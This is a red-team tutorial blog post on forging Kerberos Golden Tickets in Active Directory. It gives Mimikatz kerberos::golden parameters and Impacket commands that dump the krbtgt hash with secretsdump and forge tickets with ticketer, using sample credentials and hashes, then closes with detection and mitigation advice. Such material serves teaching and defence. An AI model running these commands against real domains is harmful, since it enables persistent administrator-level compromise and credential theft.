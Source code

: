 ```yaml
---
title:  "Kerberos attacks 4-golden Ticket "
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Kerberos attacks 4-golden Ticket"
categories:
  - Red-Teaming
toc: true
---
```


## golden Ticket
* is a famous technique of impersonating users on an AD domain by abusing Kerberos authentication
* A Golden Ticket is a type of attack in which an adversary gains control over an Active Directory Key Distribution Service Account (KRBTGT), and uses that account to forge valid Kerberos Ticket Granting Tickets (TGTs). This gives the attacker access to any resource on an Active Directory Domain
* Golden Ticket give attackers unrestricted access to networked resources and the ability to forge new tickets, allowing them to reside on networks indefinitely by being disguised as credentialed administrator-level users.






## Forging Kerberos Tickets
* Forging Kerberos tickets depends on the password hash available to the attacker
* Golden Ticket requires the KRBTGT password hash.
* Silver ticket requires the Service Account (either the computer account or user account) password hash.
* Create anywhere and user anywhere on the network, without elevated rights.

## requirements for forging TGT
 * Domain Name
 * SID
 * Domain KRBTGT Account NTLM password hash
 * Impersonate user
 
 
```
kerberos::golden  ## Name of the module  
/user:Administrator  ## username of which the TGT is generated
/domain:karim.net  ## Domain 
/sid:5-1-5-21-268341927-4156871508- 1792461683  ## SID of the domain 
/krbtgt:a9b30e5bOdc865eadcea9411e4ade72d   NTLM (RC4) hash of the krbtgt account. Use /aes128 and /aes256 for using AES keys. 
/id:500 /groups:512 Optional User RID (default 500) and Group default 513 512 520 518 519)
/ptt  ## Injects the ticket in current PowerShell process ,no need to save the ticket on disk 
/startoffset:0  ##Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future. 
/endin:600  ##Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes 
/renewmax:10080  ##Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 
```
## golden ticket with Mimikatz
## golden ticket with Impacket
used for lookupid python script to enumerate the Domain SID.
```
python3 lookupsid.py user/Administrator:password@ip
python3 lookupsid.py admin/Administrator:p@ssw0rd@192.168.128.140
```

<img src="/img/golden/sidk.PNG" alt="Getting-gz" width="800" height="150"> 

used secretsdump.py the python script for extracting Krbtgt hash
```
python3 secretsdump.py administrator:p@ssw0rd@192.168.128.140 -outputfile krbhash -user-status   
```

<img src="/img/golden/secretdump.PNG" alt="Getting-gz" width="800" height="150"> 

Use ticketer.py script that will create TGT/TGS tickets,Tickets duration is fixed to 10 years from now.
```
sudo ticketer.py -nthash <krbtgt/service nthash> -domain-sid <your domain SID> -domain <your domain FQDN> baduser
sudo python3 ticketer.py -nthash 564e72d3c6c1927de1d2f252665e7c54 -domain-sid S-1-5-21-750046758-1551849808-2392872301 -domain karim.net admin
```

<img src="/img/golden/crer.PNG" alt="Getting-gz" width="800" height="150"> 

Use ticket_converter.py script which will convert kirbi files into ccache file
```
sudo python3 ticketConverter.py admin.ccache ticket.kirbi  
```

<img src="/img/golden/convert.PNG" alt="Getting-gz" width="800" height="150"> 

 whenever you want to access the Domain server service you can use the ticket.kirbi file

## golden ticket with Rubeus.exe
## Detection
 * detecting a golden ticket attack depends on the method used. If the Mimikatz tool was dropped in your environment, antivirus might identify and block it. That said, Mimikatz itself is very simple to modify, changing its hash and invalidating any hash-based detection. 
 *  detection will ultimately rely on watching for unusual behavior. This could look like accounts accessing systems they would not normally access or accounts authenticating with different accounts. It could also be SIDs that do not match the username or generic usernames in use that do not exist in the environment.
 * it is important to audit your user and service accounts on a regular basis. If you don’t know what is usual, detecting unusual activity is virtually impossible.
 
## Mitigation
* Limit Domain Admins from logging on to any other computers other than Domain Controllers and a handful of Admin servers (don’t let other admins log on to these servers) Delegate all other rights to custom admin groups. This greatly reduces the ability of an attacker to gain access to a Domain Controller’s Active Directory database
* Install endpoint protection to block attackers from loading modules like mimikatz & powershell scripts
* Limit privilege for Admin and Domain Administrator access.
* Alert on known behaviours that indicates Golden Ticket or other similar attacks.
* Implement multi-factor authentication (MFA) on all external authentication points, including VPN.
* Don’t have RDP open to the internet. Seriously.  Get RDP behind a VPN, and implement MFA on it.
* Fake credentials can be injected into the LSAS cache, which would be tempting to hackers. Seeing these “honeycreds” used would clearly indicate an issue.
* Perform the reset of the krbtgt account (twice) in accordance with your password reset policies, or quarterly.
* Enable Windows Defender Credential Guard on applicable systems (Windows 10 and Server 2016 and above). Do not use on domain controllers.
